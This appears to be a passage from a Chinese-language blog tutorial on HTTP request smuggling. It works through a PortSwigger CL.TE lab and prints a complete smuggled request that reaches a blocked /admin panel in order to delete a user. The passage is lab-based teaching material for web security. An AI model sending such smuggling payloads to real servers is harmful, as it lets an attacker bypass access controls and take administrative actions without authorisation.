 上面我们大概介绍了几种攻击方式，下面我来看看这些攻击方式可以用来干嘛。同样我们将配合实验环境帮助理解与复现。

### Bypass Front-end Security Controls

这里提供了两个实验环境，一个是 CL-TE 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te) ，一个是 TE-CL 形式的 [Lab: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)，两个实验最终达到的目的一样，这里我们随便选用 CL-TE 的来进行实验。

> ​ This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.
> 
> To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos.

架构一样，只不过这次我们需要去利用 HTTP Smuggling 获取 admin 权限并删除 carlos 用户。

我们生成 LAB 之后，直接访问`/admin`会发现 `"Path /admin is blocked"`，看来不能通过正常方式访问`/admin`，那我们尝试 HTTP Smuggling 的方式，发送如下数据包两次：

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 28
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
```

得到的响应如下两图

[![](assets/1698897445-c525c30c56b9b290fa980b54c5ca150b.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123154656.png)
